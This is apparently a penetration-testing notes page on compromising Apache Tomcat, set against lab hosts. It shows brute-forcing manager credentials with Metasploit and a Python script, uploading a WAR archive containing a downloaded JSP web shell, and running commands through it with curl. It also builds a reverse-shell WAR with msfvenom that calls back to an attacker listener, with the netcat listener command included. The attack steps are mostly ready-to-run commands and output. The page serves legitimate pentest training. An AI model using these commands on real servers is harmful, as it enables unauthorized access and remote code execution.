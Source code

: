 ```yaml
---
icon: cat
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Tomcat

If we can access the `/manager` or `/host-manager` endpoints, we can likely achieve remote code execution on the Tomcat server. We can use the [auxiliary/scanner/http/tomcat\_mgr\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/) [metasploit](../../../../toolbox/tooling/exploitation-tools/metasploit/ "mention") module for these purposes, Burp Suite Intruder or any number of scripts to achieve this.

## Login Brute Force

### Metasploit - tomcat\_mgr\_login

We must specify the vhost and the target's IP address to interact with the target properly. We should also set `STOP_ON_SUCCESS` to `true` so the scanner stops when we get a successful login, no use in generating loads of additional requests after a successful login.

```bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

<snip>
[-] 10.129.201.58:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Python Script: Tomcat-Manager-Bruteforce

{% hint style="info" %}
## Script Download:

[https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)
{% endhint %}

```bash
python3 mgr_brute.py -U http://tomcat.acme.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

```
[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'admin'
```

## WAR File Upload

Many Tomcat installations provide a GUI interface to manage the application. This interface is available at `/manager/html` by default, which only users assigned the `manager-gui` role are allowed to access. Valid manager credentials can be used to upload a packaged Tomcat application (.WAR file) and compromise the application.

A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage. The manager web app allows us to instantly deploy new applications by uploading WAR files. A WAR file can be created using the zip utility.

A JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive.

{% code title="Download Web Shell" %}
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
```
{% endcode %}

Click on `Browse` to select the .war file and then click on `Deploy`.

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

This file is uploaded to the manager GUI, after which the `/backup` application will be added to the table.

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

If we click on `backup`, we will get redirected to `http://web01.acme.com:8180/backup/` and get a `404 Not Found` error. We need to specify the `cmd.jsp` file in the URL as well. Browsing to `http://web01.acme.com:8180/backup/cmd.jsp` will present us with a web shell that we can use to run commands on the Tomcat server.

From here, we could upgrade our web shell to an interactive reverse shell and continue.

```bash
curl http://web01.acme.com:8180/backup/cmd.jsp?cmd=id
```

{% hint style="info" %}
## Clean Up & Note Taking

To clean up after ourselves, we can go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application after, of course, noting down the file and upload location for our report, which in our example is `/opt/tomcat/apache-tomcat-10.0.10/webapps`.

If we do an `ls` on that directory from our web shell, we'll see the uploaded `backup.war` file and the `backup` directory containing the `cmd.jsp` script and `META-INF` created after the application deploys. Clicking on `Undeploy` will typically remove the uploaded WAR archive and the directory associated with the application.
{% endhint %}

## Creating WAR Files

### MSFVenom

We could also use [msfvenom.md](../../../../toolbox/tooling/exploitation-tools/metasploit/msfvenom.md "mention") to generate a malicious WAR file. The payload [java/jsp\_shell\_reverse\_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb) will execute a reverse shell through a JSP file. Browse to the Tomcat console and deploy this file. Tomcat automatically extracts the WAR file contents and deploys it.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

Start a Netcat listener and click on `/backup` to execute the shell.

```bash
nc -lnvp 4443
```

{% hint style="success" %}
## Utilising Metasploit

The [multi/http/tomcat\_mgr\_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/) [metasploit](../../../../toolbox/tooling/exploitation-tools/metasploit/ "mention") module can be used to automate this process.
{% endhint %}

{% hint style="danger" %}
## Web Shell Warning

When we upload web shells (especially on externals), we want to prevent unauthorised access. We should take certain measures such as a randomised file name (i.e., MD5 hash), limiting access to our source IP address, and even password protecting it. We don't want an attacker to come across our web shell and leverage it to gain their own foothold.
{% endhint %}
